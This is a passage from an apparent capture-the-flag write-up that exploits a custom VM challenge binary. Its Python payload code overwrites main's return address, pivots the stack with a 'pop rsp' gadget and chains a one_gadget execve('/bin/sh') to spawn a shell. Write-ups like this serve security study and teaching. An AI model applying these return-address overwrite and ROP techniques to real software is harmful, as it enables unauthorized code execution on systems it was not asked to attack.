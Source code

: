 I stored the main's return address locally just for convinence in the address calculation that will be done later.
Now, we will overwrite the least significant part of the main's return address with the gadget 1, to pivot the stack. To achieve this, we only need to call the vm's add function with both the least significant part of the main's return address and the gadget's offset (from the main's return address) placed on the stack. The overwrite is just a simple combination of loads and stores (both global and from the callstack).
I decided to pivot the stack to where code points, as it needed to be 16-bit aligned and code is. So, using a combination of loads and stores I wrote the address pointed by code next to the gadget's address (so pop rsp will pop this value).

```python
#changes main return address to pop rsp gadget (to get an aligned stack)
payload += vm_gload(RET_MAIN_LEAST) + vm_push(FIRST_GADGET_OFFSET) + vm_add() + vm_gstore(RET_MAIN_LEAST)
#pivots the stack
payload += vm_load(IP_LEAST_SIGNIFICANT) + vm_gstore(RET_MAIN_LEAST+2) + vm_load(IP_MOST_SIGNIFICANT) + vm_gstore(RET_MAIN_LEAST+3)
```

Now, I suggest that we take a look at the one gadget constrains (I chose this one, however another could have been chosen instead).

```bash
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
[r15] == NULL || r15 == NULL
[r12] == NULL || r12 == NULL
```

Using gdb I found out that r15 is always NULL, but r12 isn't. So I used the second gadget to make sure that r12 is NULL.

```python
#writes the address of the other gadget
payload += vm_load(RET_MAIN_MOST_STORED) + vm_gstore(1) + vm_load(RET_MAIN_LEAST_STORED) + vm_push(SECOND_GADGET_OFFSET)
payload += vm_add() + vm_gstore(0)
```

Using the same logic that I used to get the address for the first gadget, I calculated the address of the second gadget and set the stack to ensure that r12 ends up NULL in the end.
Finnaly, all that is left to do is write the address of one gadget to garantee that the ret from the second gadget returns to one gadget (to calculate the address I used, one last time, the same logic as for the other two gadgets).
Then, when we call halt (forcing main to return), we will have opened a shell.

```python
# writes the address of one_gadget
payload += vm_load(RET_MAIN_MOST_STORED) + vm_gstore(5) + vm_load(RET_MAIN_LEAST_STORED) + vm_push(ONE_GADGET_OFFSET) + vm_add() + vm_gstore(4)

#restores the globals pointer to ensure there are no problems in free
payload += vm_push(0) + vm_gstore(2) + vm_push(0) + vm_gstore(3) 
payload += vm_push(0)*2 + vm_pop(3) + vm_load(GLOBALS_MOST) + vm_pop(2) + vm_load(GLOBALS_LEAST)

#garantees the payload size (in bytes) is 512 
payload += (512-len(payload)//4)*vm_halt()
```
